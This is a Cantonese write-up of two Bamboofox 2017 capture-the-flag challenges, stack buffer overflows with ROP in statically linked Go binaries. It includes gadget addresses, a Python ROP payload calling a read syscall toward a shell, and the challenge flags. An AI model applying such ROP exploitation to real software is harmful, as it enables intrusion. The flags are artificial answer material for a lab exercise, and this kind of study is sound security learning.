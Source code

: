 # Bamboofox 2017 infant-gogogo & infant-gotoheaven


兩條基本嘅buffer overflow with ROP不過係用golang compile, 算係1 set 向Seccon 2017 babystack致敬嘅題目

由於兩個都係static linked, 所以乜gadget都有,例如syscall, 只要跟住syscall table 汁藥就可以get shell

不過要留意好多gadget 都會對其他register 有operation 

例如 infant-gogogo :

```C
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
#0x0000000000408437 : pop rsi ; dec dword ptr [rax + 0x21] ; ret
```
所以行呢句gadget 嘅時候要保證related register 唔係=0x0 

例如:
```C
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
```
就要保證RSI 唔係等於0x0 , 

所以就要去bss 段求其塞d valid memory address去個d 相關register:
For example:
```python
payload="A"*256
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
#0x0000000000408437 : pop rsi ; dec dword ptr [rax + 0x21] ; ret
buf=0x0052e2a0
rsi=0x0000000000408437
rdx=0x0000000000413d6d
#call read rdi :fd=0 
#rsi:buf 
#rdx:size 
#rax:0x00
payload+=p64(pop_rax_ret)+p64(buf+0x200)
payload+=p64(pop_rdi)+p64(0x0)+p64(rsi)+p64(buf+0x300)
payload+=p64(rdx)+p64(0x8)+p64(pop_rax_ret)+p64(0)+p64(syscall)
```

# Solution :

[infant-gogogo](infant-gogogo.py)


[infant-gotoheaven](infant-gotoheaven.py)


# Flag

```
infant-gogogo: BAMBOOFOX{G0LaNg_iS_aw3s0m3ls!}

infant-gotoheaven : BAMBOOFOX{GOLANG_PWnnnnnnnIng_iS_r3A11Y_W3iRdO_O}

```



# Reference

1. http://shift-crops.hatenablog.com/entry/2017/12/09/200440





